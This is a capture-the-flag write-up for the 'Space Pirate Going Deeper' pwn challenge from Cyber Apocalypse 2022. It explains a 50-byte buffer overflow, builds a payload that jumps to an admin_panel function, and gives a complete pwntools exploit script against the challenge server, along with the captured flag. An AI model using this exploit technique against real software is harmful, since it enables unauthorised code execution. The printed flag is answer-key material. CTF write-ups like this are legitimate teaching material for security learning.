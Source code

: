 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Space Pirate Going Deeper Writeup
desc: Check out our writeup for Space Pirate Going Deeper for Cyber Apocalypse 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: pwn
challenge: Space Pirate Going Deeper
tags: "pwn, taz, bof, python"
date: 2022-05-21T00:00:00+00:00
last_modified_at: 2022-05-21T00:00:00+00:00
---
```



> Solved by:  Taz34

Here we have a 64 bit binary which takes input as follows:

![](https://i.imgur.com/q2tXif4.png)

After playing around with the binary i came across a Segmentation fault, hence we have a buffer overflow exploit here.

![](https://i.imgur.com/u0IXBic.png)

So I found the offset to be 50. 

Now to understand the working of the binary I opened the binary in Cutter
https://cutter.re/

Here we came across the main function and another interesting function named admin_panel
In the admin_panel function we came across an if statement:

![](https://i.imgur.com/w6r55nM.png)

From here we can understand that, if we want to print the flag i.e. `system(``"``cat flag``"``);`
we need to make the if condition false.

So now we can create the payload

```python
payload = b'A'*offset + ret_addr_main + ret_addr_admin_panel + if_arg1 + if_arg3 + if_arg3
payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)
```

Now we have our payload set, hence the final script:

```python
from pwn import *
#elf = ELF('./sp_going_deeper')
#p = elf.process()
p = remote("138.68.161.126", 31239) 

payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)

p.sendline('1')
p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/jgsMkE9.png)


And here the flag is dumped.

```
Flag: HTB{no_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_flow_r3d1r3ct}
```